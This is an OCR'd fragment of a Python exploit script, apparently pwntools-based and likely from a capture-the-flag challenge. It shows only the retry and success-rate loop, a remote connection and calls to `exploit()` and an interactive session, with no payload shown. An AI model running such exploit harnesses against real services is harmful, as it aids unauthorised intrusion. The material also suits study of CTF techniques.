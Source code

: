 ```python
                print("----- {} st try SUCCESS: {} sec (total)".format(hex(try_count),time.time()-start_time))
                if len(sys.argv) > 2 :      # check success rate
                    print("\n***** NOW SUCCESS NUM: {} ******\n".format(hex(total_success + 1)))
                    total_try += try_count
                    try_count = 0
                    total_success += 1
                    start_time = time.time()
                    if total_success >= 0x10:
                        print("\n\n\nTotal {} Success in {} Try. Total Time: {} sec\n\n\n".format(hex(total_success),hex(total_try),time.time()-init_time))
                        exit()
                    else:
                        continue
                else:
                    c.interactive()
                    exit()

    else:
        c = remote(rhp2['host'],rhp2['port'])

    exploit()
    c.interactive()
```
